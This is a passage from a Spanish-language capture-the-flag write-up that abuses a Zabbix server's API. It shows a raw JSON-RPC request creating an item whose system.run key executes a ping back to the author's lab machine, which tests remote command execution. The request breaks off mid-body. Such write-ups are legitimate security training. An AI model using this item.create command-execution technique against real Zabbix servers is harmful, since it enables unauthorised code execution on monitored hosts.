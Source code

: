 Pero si filtramos por el ID 1 nos devuelve el host que nos interesa.
![Write-up Image](images/Screenshot_21.png)

Ahora según la documentación, para poder utilizar `system.run` en el método `item.create`, debe de estar a `1` el parámetro `EnableRemoteCommands` para que esto funcione, así que vamos a probar a ver si tenemos suerte.
La sintaxis para utilizar `system.run[COMANDO]`, lo podemos consultar [en esta consulta de un usuario](https://www.zabbix.com/forum/zabbix-help/21803-system-run-syntax)
Vamos a intentar mandarnos un ping a nuestra máquina.

```
POST /zabbix/api_jsonrpc.php HTTP/1.1

Host: 10.129.231.176

User-Agent: curl/8.7.1

Accept: */*

Content-Type: application/json-rpc

Content-Length: 258

Connection: close



{"jsonrpc": "2.0", "method": "item.create",

"params":{

"name":  "test",

"key_":"system.run[ping -c 1 10.10.14.197]",

"interfaceid": 1,

"hostid":"10084",

"type":0,

"value_type":1,

"delay":"2s"

```